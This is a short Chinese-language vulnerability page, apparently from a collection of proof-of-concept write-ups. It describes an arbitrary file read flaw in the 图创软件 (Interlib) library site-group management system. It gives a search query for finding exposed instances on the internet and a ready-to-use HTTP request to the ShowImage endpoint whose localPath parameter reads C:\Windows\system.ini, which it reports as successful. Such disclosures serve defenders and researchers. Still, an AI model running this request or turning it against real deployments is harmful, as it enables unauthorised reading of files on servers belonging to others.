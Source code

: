 # 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
图创软件 图书馆站群管理系统
```

## 网络测绘

```
"广州图创" && country="CN" && body="/interlib/common/"
```



## 漏洞复现

登录页面如下

![](images/202202101854438.png)

漏洞请求包为



```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```



![](images/202202101854283.png)



成功读取 system.ini 文件